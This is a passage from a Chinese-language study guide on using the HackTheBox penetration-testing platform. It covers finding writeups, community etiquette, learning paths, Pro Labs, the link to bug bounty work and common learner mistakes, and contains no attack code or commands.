# 查找退役靶机的 Writeup
# 1. HTB 官方论坛（退役后开放）
# https://forum.hackthebox.com/t/retired-box-name/XXXX

# 2. GitHub 搜索
# "HackTheBox 靶机名 writeup"

# 3. 个人博客
# 搜索 "HTB 靶机名 writeup 中文"
```

**高效对比学习法：**



#### Discord 社区参与

HTB 的 Discord 服务器是全球最大的渗透测试社区之一：

- **#general**：日常讨论和求助
- **#help**：具体的靶机帮助（注意：不要直接要 Flag）
- **#writeups**：高质量 Writeup 分享
- **#machine-discussion**：退役靶机的深度讨论
- **#events**：竞赛和活动信息

**参与社区的最佳实践**：
1. 提问时展示你已经尝试过什么，而非直接要答案
2. 分享你的 Writeup，即使不完美——社区反馈是最好的学习机会
3. 关注高水平选手的分享，学习他们的思路和工具链

### 2.8 进阶技巧与高级功能

#### HTB Labs（学习路径）

HTB 提供了结构化的学习路径（Labs），覆盖从入门到高级的完整技能树：

| 路径名称 | 内容 | 适合人群 | 预计耗时 |
|----------|------|---------|---------|
| **Starting Point** | 基础入门，引导式解题 | 零基础 | 1-2 周 |
| **Beginner Track** | Easy 靶机精选 | 入门级 | 2-4 周 |
| **Intermediate Track** | Medium 靶机精选 | 中级 | 1-2 月 |
| **Active Directory** | AD 域攻击专项 | 高级 | 2-4 周 |
| **Bug Bounty** | Web 漏洞挖掘 | Web 方向 | 持续 |

**Starting Point 路径示例（推荐入门顺序）：**



#### HTB Battlegrounds（实战对抗）

HTB Battlegrounds 提供了实时对抗模式，学习者需要在有限时间内完成渗透：

- **功能**：真实对抗场景，模拟红蓝对抗
- **时长**：每轮 30-60 分钟
- **技能要求**：综合渗透能力 + 时间管理
- **训练价值**：锻炼在压力下的决策能力和操作速度

#### Pro Labs（企业级场景）

HTB Pro Labs 提供了模拟企业网络的大型场景：

- **Dante**：经典企业网络渗透，覆盖外网打点→内网渗透→域控攻陷
- **Offshore**：大型 Active Directory 环境
- **RastaLabs**：高级红队模拟

**Pro Labs 与普通靶机的区别：**

| 维度 | 普通靶机 | Pro Labs |
|------|---------|---------|
| 环境规模 | 单台主机 | 多主机网络 |
| 攻击路径 | 线性 | 多路径、需自主发现 |
| 时间投入 | 2-12 小时 | 数天到数周 |
| 技能要求 | 单一漏洞利用 | 完整渗透测试方法论 |
| 适合目标 | 学习特定技术 | 模拟真实红队任务 |

#### Bug Bounty 与 HTB 的结合

HTB 的经验可以直接迁移到 Bug Bounty 平台：


**从 HTB 到 Bug Bounty 的迁移技巧**：
1. HTB 中学到的 Web 漏洞模式（SQLi、XSS、SSRF）直接适用于 Bug Bounty
2. HTB 的自动化扫描脚本可以改造为 Bug Bounty 的侦察工具
3. HTB 训练的提权技巧可应用于 Bug Bounty 中的权限提升报告
4. HTB 社区的经验分享有助于理解 Bug Bounty 的报告规范

### 2.9 常见误区与纠正

| 误区 | 正确做法 | 原因分析 |
|------|---------|---------|
| 一开始就看 Writeup | 先独立尝试 30-60 分钟 | 直接看答案无法建立解题直觉 |
| 只做 Easy 靶机 | 逐步提升难度，挑战 Medium/Hard | 长期停留在舒适区无法突破瓶颈 |
| 忽略写 Writeup | 每台靶机都写结构化 Writeup | 写作过程是深度复盘，能发现理解漏洞 |
| 工具依赖症 | 先理解原理，再用工具自动化 | 不理解原理就无法处理工具失败的情况 |
| 跳过信息收集 | 完整执行信息收集流程 | 80% 的攻击面在信息收集阶段发现 |
| 从不重做旧靶机 | 定期重做已解过的靶机 | 巩固技能 + 发现新方法 |
| 独自苦练不交流 | 积极参与社区讨论 | 社区反馈是最高效的学习加速器 |
| 忽略 VIP 价值 | 条件允许时开通 VIP | 独立 IP + 即时重置显著提升效率 |

### 2.10 高效使用 HTB 的核心策略总结



**最重要的三个原则：**

1. **系统化**：遵循标准渗透流程（信息收集→漏洞发现→初始访问→权限提升→Flag），形成肌肉记忆
2. **复盘化**：每台靶机都写 Writeup，定期回顾，建立可检索的个人知识库
3. **渐进化**：从 Easy 到 Insane 逐步提升难度，始终保持在"最近发展区"内挑战自我

掌握这些技巧后，你在 HTB 上的解题效率将显著提升——从盲目尝试变为有方法论指导的系统化攻防实践，这才是安全技能真正快速成长的路径。
